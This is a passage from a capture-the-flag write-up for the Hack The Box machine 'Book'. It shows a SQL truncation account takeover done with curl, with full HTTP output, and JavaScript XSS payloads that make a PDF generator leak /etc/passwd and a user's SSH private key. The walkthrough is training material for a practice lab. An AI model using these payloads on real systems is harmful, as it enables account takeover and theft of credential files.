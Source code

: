    With this in mind we can execute our SQL truncation attack via BurpSuite and/or cURL.

   root@p3:/opt/htb/machines/book# curl -v book.htb/index.php -H "Content-Type: application/x-www-form-urlencoded" --data "name=admin&email=admin%40book.htb                       randomstring&password=asdf"
    *   Trying 10.10.10.176:80...
    * TCP_NODELAY set
    * Connected to book.htb (10.10.10.176) port 80 (#0)
    > POST /index.php HTTP/1.1
    > Host: book.htb
    > User-Agent: curl/7.67.0
    > Accept: */*
    > Content-Type: application/x-www-form-urlencoded
    > Content-Length: 72
    >
    * upload completely sent off: 72 out of 72 bytes
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 302 Found
    < Date: Fri, 06 Mar 2020 08:14:31 GMT
    < Server: Apache/2.4.29 (Ubuntu)
    < Set-Cookie: PHPSESSID=3okm0p20tnpnf0m808nmg0fiku; path=/
    < Expires: Thu, 19 Nov 1981 08:52:00 GMT
    < Cache-Control: no-store, no-cache, must-revalidate
    < Pragma: no-cache
    < location: index.php
    < Content-Length: 0
    < Content-Type: text/html; charset=UTF-8
    <
    * Connection #0 to host book.htb left intact

  Now we are able to login on the admin-page with the credentials admin@book.htb:asdf


3. As the user, we can launch a LFI XSS attack, using the Book Submission feature. From the noob.ninja website we can just copy and
   paste the exact script and paste it into the 'Book Title'- and 'Author' fields.

   By retrieving /etc/passwd we can find the usernames, and from here hopefully grab a SSH private key.
    <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>

   When the suggestion has been made, head over to the admin-side of the site and download the new 'Collections PDF' which should now
   contain the content of /etc/passwd.

   In the PDF we find two users that are allowed to login, root and reader.
    root:x:0:0:root:/root:/bin/bash
    reader:x:1000:1000:reader:/home/reader:/bin/bash

   Do the same thing again and grab id_rsa from user reader.
    <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>


4. Unfortunately, due to formating we are unable to just copy the content of the pdf to create a usable id_rsa key. Convert it
   using pdf2txt.py, if you don't have it you can install if with 'pip3 install pdfminer.six'.
